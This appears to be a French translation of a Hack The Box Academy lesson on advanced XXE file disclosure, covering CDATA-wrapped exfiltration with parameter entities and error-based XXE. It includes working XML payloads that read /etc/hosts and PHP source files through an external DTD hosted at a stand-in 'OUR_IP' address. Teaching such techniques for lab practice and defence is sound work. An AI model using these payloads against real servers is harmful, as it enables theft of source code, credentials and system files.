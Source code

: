 Divulgation avancée des fichiers
================================

* * * * *

Toutes les vulnérabilités XXE peuvent ne pas être simples à exploiter, comme nous l'avons vu dans la section précédente. Certains formats de fichiers peuvent ne pas être lisibles via XXE de base, tandis que dans d'autres cas, l'application Web peut ne pas générer de valeurs d'entrée dans certains cas, nous pouvons donc essayer de la forcer à traverser des erreurs.

* * * * *

Exfiltration avancée avec CDATA
-------------------------------

Dans la section précédente, nous avons vu comment nous pouvions utiliser des filtres PHP pour encoder les fichiers source PHP, de sorte qu'ils ne cassent pas le format XML lorsqu'ils sont référencés, ce qui (comme nous l'avons vu) nous empêchait de lire ces fichiers. Mais qu'en est-il des autres types d'applications Web ? Nous pouvons utiliser une autre méthode pour extraire tout type de données (y compris les données binaires) pour tout backend d'application Web. Pour sortir des données qui ne sont pas conformes au format XML, nous pouvons envelopper le contenu de la référence du fichier externe avec une `CDATA`balise (par exemple `<![CDATA[ FILE_CONTENT ]]>`). De cette façon, l'analyseur XML considérerait cette partie comme des données brutes, qui peuvent contenir n'importe quel type de données, y compris des caractères spéciaux.

Un moyen simple de résoudre ce problème serait de définir une `begin`entité interne avec `<![CDATA[`, une `end`entité interne avec `]]>`, puis de placer notre fichier d'entité externe entre les deux, et il devrait être considéré comme un `CDATA`élément, comme suit :

Code : xml

```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>

```

Après cela, si nous référençons l' `&joined;`entité, elle doit contenir nos données échappées. Cependant, `this will not work, since XML prevents joining internal and external entities`nous devrons donc trouver une meilleure façon de le faire.

Pour contourner cette limitation, nous pouvons utiliser `XML Parameter Entities`, un type spécial d'entité qui commence par un `%`caractère et ne peut être utilisé que dans la DTD. Ce qui est unique avec les entités paramètres, c'est que si nous les référençons à partir d'une source externe (par exemple, notre propre serveur), alors toutes seront considérées comme externes et peuvent être jointes, comme suit :

Code : xml

```
<!ENTITY joined "%begin;%file;%end;">

```

Essayons donc de lire le `submitDetails.php`fichier en stockant d'abord la ligne ci-dessus dans un fichier DTD (par exemple `xxe.dtd`), en l'hébergant sur notre machine, puis en la référençant en tant qu'entité externe sur l'application Web cible, comme suit :

```
dsgsec@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
dsgsec@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Maintenant, nous pouvons référencer notre entité externe ( `xxe.dtd`) puis imprimer l' `&joined;`entité que nous avons définie ci-dessus, qui doit contenir le contenu du `submitDetails.php`fichier, comme suit :

Code : xml

```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->

```

Une fois que nous avons écrit notre `xxe.dtd`fichier, l'avons hébergé sur notre machine, puis ajouté les lignes ci-dessus à notre requête HTTP à l'application Web vulnérable, nous pouvons enfin obtenir le contenu du `submitDetails.php`fichier : ![php_cdata](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)

Comme nous pouvons le constater, nous avons pu obtenir le code source du fichier sans avoir besoin de l'encoder en base64, ce qui permet de gagner beaucoup de temps lors de la recherche de secrets et de mots de passe dans divers fichiers.

Remarque : Dans certains serveurs Web modernes, nous ne pourrons peut-être pas lire certains fichiers (comme index.php), car le serveur Web empêcherait une attaque DOS causée par l'auto-référence de fichier/entité (par exemple, boucle de référence d'entité XML) , comme mentionné dans la section précédente.

Cette astuce peut devenir très pratique lorsque la méthode XXE de base ne fonctionne pas ou lorsqu'il s'agit d'autres frameworks de développement Web. `Try to use this trick to read other files`.

* * * * *

XXE basé sur les erreurs
------------------------

Une autre situation dans laquelle nous pouvons nous trouver est celle où l'application Web peut ne pas écrire de sortie, de sorte que nous ne pouvons contrôler aucune des entités d'entrée XML pour écrire son contenu. Dans de tels cas, nous serions `blind`à la sortie XML et ne serions donc pas en mesure de récupérer le contenu du fichier en utilisant nos méthodes habituelles.

Si l'application Web affiche des erreurs d'exécution (par exemple, des erreurs PHP) et ne dispose pas d'une gestion appropriée des exceptions pour l'entrée XML, nous pouvons utiliser cette faille pour lire la sortie de l'exploit XXE. Si l'application Web n'écrit pas de sortie XML ni n'affiche d'erreurs, nous serions confrontés à une situation complètement aveugle, dont nous parlerons dans la section suivante.

Considérons l'exercice que nous avons `/error`à la fin de cette section, dans lequel aucune des entités d'entrée XML n'est affichée à l'écran. Pour cette raison, nous n'avons aucune entité que nous pouvons contrôler pour écrire la sortie du fichier. Essayons d'abord d'envoyer des données XML malformées et voyons si l'application Web affiche des erreurs. Pour ce faire, nous pouvons supprimer n'importe laquelle des balises de fermeture, en modifier une pour qu'elle ne se ferme pas (par exemple `<roo>`à la place de `<root>`), ou simplement référencer une entité inexistante, comme suit : ![cause_error](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg)

Nous voyons que nous avons effectivement provoqué l'affichage d'une erreur dans l'application Web, et cela a également révélé le répertoire du serveur Web, que nous pouvons utiliser pour lire le code source d'autres fichiers. Maintenant, nous pouvons exploiter cette faille pour exfiltrer le contenu du fichier. Pour ce faire, nous utiliserons une technique similaire à celle que nous avons utilisée précédemment. Tout d'abord, nous allons héberger un fichier DTD contenant la charge utile suivante :

Code : xml

```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

```

La charge utile ci-dessus définit l' `file`entité de paramètre, puis la joint à une entité qui n'existe pas. Dans notre exercice précédent, nous joignions trois chaînes. Dans ce cas, `%nonExistingEntity;`n'existe pas, de sorte que l'application Web génère une erreur indiquant que cette entité n'existe pas, ainsi que notre joint `%file;`dans le cadre de l'erreur. De nombreuses autres variables peuvent provoquer une erreur, comme un mauvais URI ou des caractères incorrects dans le fichier référencé.

Maintenant, nous pouvons appeler notre script DTD externe, puis référencer l' `error`entité, comme suit :

Code : xml

```
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>

```

Une fois que nous avons hébergé notre script DTD comme nous l'avons fait précédemment et envoyé la charge utile ci-dessus en tant que nos données XML (inutile d'inclure d'autres données XML), nous obtiendrons le contenu du `/etc/hosts`fichier comme suit : ![erreur_exfil](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg)

Cette méthode peut également être utilisée pour lire le code source des fichiers. Tout ce que nous avons à faire est de changer le nom du fichier dans notre script DTD pour qu'il pointe vers le fichier que nous voulons lire (par exemple `"file:///var/www/html/submitDetails.php"`). Cependant, `this method is not as reliable as the previous method for reading source files`, car il peut avoir des limites de longueur, et certains caractères spéciaux peuvent toujours le casser.
